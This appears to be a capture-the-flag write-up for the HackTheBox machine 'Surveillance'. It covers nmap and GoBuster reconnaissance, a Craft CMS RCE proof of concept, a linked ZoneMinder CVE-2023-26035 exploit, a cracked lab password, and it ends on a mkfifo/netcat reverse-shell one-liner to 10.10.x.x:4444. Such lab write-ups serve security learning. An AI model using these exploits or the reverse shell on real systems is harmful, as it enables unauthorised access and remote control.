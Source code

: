 
Main Exploit : https://github.com/Faelian/zoneminder_CVE-2023-26035/tree/main


Cracked Password : 
```
matthew : starcraft122490 
```


## NMAP

![](https://miro.medium.com/v2/resize:fit:700/1*dI5mf5RwZ7_GerZBokaG6Q.png)

Since HTTP is open, let us check if a webpage is viewable in a web browser.

![](https://miro.medium.com/v2/resize:fit:700/1*4FXwiYMLJfuWHKcFVWu3WQ.png)

The webpage seems to be having troubling finding the site. When you encounter something like this, you can just add the IP and the DNS name in the /etc/hosts

![](https://miro.medium.com/v2/resize:fit:444/1*0Sh9Svu6psE1kt694jG-ig.png)

It should be up.

![](https://miro.medium.com/v2/resize:fit:700/1*QQtd8WqsoJ8OHYk4LhrmXg.png)

Since we can view it now, we can now do some directory busting. In this case we will be using GoBuster.

![](https://miro.medium.com/v2/resize:fit:700/1*CurkhaYEFQV9IzGEnUUj5A.png)

![](https://miro.medium.com/v2/resize:fit:700/1*5luBiuAoORu-IlIKaIqJyA.png)

got an admin login, it is running Craft CMS.

![](https://miro.medium.com/v2/resize:fit:700/1*pTiDsD8asMqbbqP_ur4QTw.png)

I viewed the source code of the surveillance.htb/index.php and discovered the version.

![](https://miro.medium.com/v2/resize:fit:700/1*qG31I5SSvvR6cEbnw_jPpg.png)

I did some googling on the version itself and discovered a RCE PoC.

You need to edit this part of the script for it to work.

![](https://miro.medium.com/v2/resize:fit:700/1*eb0uTCFrGvPUucFBAkRa2g.png)

It should get you a shell.

![](https://miro.medium.com/v2/resize:fit:606/1*_6iM_3gvoZPBukBVb8WHbQ.png)

After the first foothold via the PoC, next is to have a decent shell for bash commands.

I found this one liner.

**rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc 10.10.x.x 4444 >/tmp/f**
